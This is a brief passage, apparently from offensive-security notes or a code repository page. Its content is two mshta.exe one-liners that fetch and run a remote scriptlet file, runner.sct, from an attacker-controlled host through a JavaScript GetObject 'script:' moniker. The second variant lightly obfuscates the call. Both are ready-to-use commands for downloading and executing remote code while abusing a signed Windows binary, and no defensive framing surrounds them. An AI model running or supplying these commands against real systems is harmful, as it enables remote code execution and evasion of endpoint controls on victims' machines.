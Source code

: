 We can execute `runner.sct` remotely with:

- `mshta.exe "javascript:GetObject('script:http://192.168.50.145/runner.sct');close();"`
- `mshta.exe "javascript:a=GetObject;b='script:http://192.168.50.145/runner.sct';a(b);close();"`
